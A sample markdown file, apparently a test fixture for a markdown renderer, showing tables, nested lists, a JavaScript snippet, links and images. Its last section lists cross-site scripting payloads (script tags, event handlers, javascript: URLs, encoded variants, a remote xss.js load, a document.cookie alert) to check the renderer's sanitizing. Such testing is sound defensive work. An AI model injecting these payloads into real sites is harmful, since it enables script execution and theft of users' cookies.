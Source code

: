 # Sample markdown

It's a sample markdown file.

---

fadfadfasfafdaf
fadfasfdadfafasfdafdaf

| Tables        | Are           | Cool  |
| ------------- |:-------------:| -----:|
| col 3 is      | right-aligned | $1600 |
| col 2 is      | centered      |   $12 |
| zebra stripes | are neat      |    $1 |

> Reference

fadfasdf

> Reference
> Reference
> Reference

1. x

    1. xx
        - aaa
        - bbb
        - ccc

    2. yy
        * hoge
        * fuga

    3. zz

2. y

3. z

## h2 hogehoge

*italic*

**emphasis**

~~line through~~

### h3 aaa

  list

  * item 1

    `code.js`

    ```js
    const a = 'aaa'
    const n = 3

    function loopLog(str, num) {
      for (let i = 0; i < num; i++) {
        console.log(str)
      }
    }

    loopLog(a, n)
    ```

  * item 2

    * item 2-a
    * item 2-b
    * item 2-c
    * item 2-d

  * item 3

    nothing

  * item 4

### h3 b

bbb

### h3 cc

ccc


## h2 fugafuga

[sample link](https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4)

<a href="https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4" target="_blank" rel="noopener noreferer">sample link with target blank</a>

<img src="https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4" alt="sample image" width="120">

![sample image](https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4)


## h2 piyopiyo

youtube movie link with thumbnail

<a href="http://www.youtube.com/watch?feature=player_embedded&v=x1ci-O_7AWA
" target="_blank" rel="noopener noreferer"><img src="http://img.youtube.com/vi/x1ci-O_7AWA/0.jpg"
alt="IMAGE ALT TEXT HERE" width="240" height="180" /></a>


## h2 security check

<a href="https://www.google.com" target="_blank" onclick="alert('xss!aaa')">XSS link</a><br>
<script>alert('xss!')</script>
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

[Click Me](javascript:alert('Uh oh... xss'))
![Uh oh...]("onerror="alert('XSS'))
![Uh oh...](https://www.example.com/image.png"onload="alert('XSS'))
<b onmousemove="alert('XSS')" onclick="alert('XSS')" onmousehover="alert('XSS')" >XSS!</b>
<b　onmousemove="alert('XSS')" style="padding: 10000px;margin: -10000px;">XSS</b>
<b/onmousemove="alert('XSS')">XSS!</b>
<code lang="py" onmousemove='alert("XSS")'>
print(0)
</code>
<iframe srcdoc="<script>alert('XSS');</script>"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+">
